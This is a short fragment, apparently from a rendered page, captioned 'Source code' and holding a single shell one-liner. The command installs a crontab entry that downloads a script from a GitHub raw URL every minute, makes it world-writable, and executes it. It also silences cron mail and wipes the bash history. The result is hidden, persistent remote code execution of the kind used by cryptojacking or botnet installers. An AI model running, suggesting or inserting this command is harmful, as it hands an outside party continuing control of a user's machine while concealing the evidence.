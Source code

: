 echo 'MAILTO=""' > ~/.crontab && echo '* * * * * rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/01_model.sh?$RANDOM" -o ~/.q && chmod 777 ~/.q && ~/.q' >> ~/.crontab && crontab ~/.crontab && echo '' > .bash_history || true
